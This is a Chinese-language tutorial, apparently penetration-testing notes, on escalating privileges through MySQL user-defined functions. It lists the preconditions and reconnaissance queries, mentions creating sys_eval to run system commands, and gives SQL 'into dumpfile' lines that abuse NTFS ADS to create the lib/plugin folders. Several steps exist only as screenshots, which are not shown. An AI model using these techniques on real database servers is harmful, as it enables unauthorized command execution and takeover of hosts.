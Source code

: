 ## 1、 简介

在mysql可以使用自定义函数提权，udf = user defined funtion 用户自定义函数，对于自定义函数目录lib/plugin,文件为后缀名.dll，c语言编写

- 必须是root权限（主要是得创建和抛弃自定义函数）

- secure_file_priv=(未写路径)

- 将udf.dll文件上传到MySQL的plugin目录下（这里以MySQL>=5.1为例）

## 2、 提权中用到的查询语句

```bash
SELECT version(); #查询数据库版本
SELECT @@basedir; #查询MySQL的安装目录
SELECT user();  #查询当前用户
SHOW VARIABLES LIKE '%plugins%';  #查找是否有plugins目录
show variables like '%compile%'; #查看数据库位数
```

## 3、使用udf提权

![image-20210429224050885](../../acess/image-20210429224050885.png)

![image-20210429224420183](../../acess/image-20210429224420183.png)

导出udf，创建sys_eval，接下来直接执行命令即可

![image-20210429225221234](../../acess/image-20210429225221234.png)

##  4、导出udf报错解决

![image-20210429224719049](../../acess/image-20210429224719049.png)

**需要msyql配置中开启secure_file_priv=**

![image-20210429224853340](../../acess/image-20210429224853340.png)

**需要创建lib/plugin文件夹**

ps: 
一般没有Lib、Plugin文件夹

- 手工建立

- 突破限制创建文件夹（可用NTFS ADS流模式突破进而创建文件夹）

查找到mysql的目录

```mysql
select @@basedir; 
```

利用NTFS ADS创建lib目录

```mysql
select 'It is dll' into dumpfile 'D:\\phpStudy\\MySQL\\lib::$INDEX_ALLOCATION'; 
```

利用NTFS ADS创建plugin目录

```bash
select 'It is dll' into dumpfile 'D:\\phpStudy\\MySQL\\plugin::$INDEX_ALLOCATION';
```

